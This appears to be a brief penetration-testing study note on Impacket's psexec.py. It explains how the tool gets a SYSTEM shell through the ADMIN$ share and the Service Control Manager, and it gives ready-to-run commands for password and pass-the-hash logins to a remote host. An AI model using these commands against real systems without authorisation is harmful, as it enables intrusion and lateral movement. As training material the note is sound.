 ```yaml
---
tags:
  - PtH
---
```

Psexec.py is a clone of the Sysinternals psexec executable, but works slightly differently from the original. The tool creates a remote service by uploading a randomly-named executable to the `ADMIN$` share on the target host. It then registers the service via `RPC` and the `Windows Service Control Manager`. Once established, communication happens over a named pipe, providing an interactive remote shell as `SYSTEM` on the victim host.

[Impacket PsExec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) - Python PsExec like functionality example using [RemComSvc](https://github.com/kavika13/RemCom).
```shell-session
$ impacket-psexec [DOMAIN/]<USER>:'<PASSWORD>'@<IP>
```
# Pass the Hash
```shell-session
$ impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```